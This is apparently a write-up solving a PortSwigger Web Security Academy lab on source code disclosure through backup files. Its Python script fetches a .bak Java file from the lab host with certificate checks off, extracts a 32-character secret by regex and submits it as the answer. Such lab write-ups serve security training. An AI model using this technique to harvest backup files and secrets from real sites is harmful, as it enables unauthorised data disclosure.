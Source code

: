 # Lab: Source code disclosure via backup files

Link to lab: https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-via-backup-files

## Solution

```python
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

url = 'https://0a6300a004abba11c439eb69009e00e0.web-security-academy.net/'

response = requests.get(
    url +'backup/ProductTemplate.java.bak',
    verify=False,
)
pattern = r"\b\w{32}\b"
match = re.search(pattern, response.text)

data = {
    'answer': match.group()
}

response = requests.post(
    url + 'submitSolution',
    data=data,
    verify=False,
)
print(response.text)
```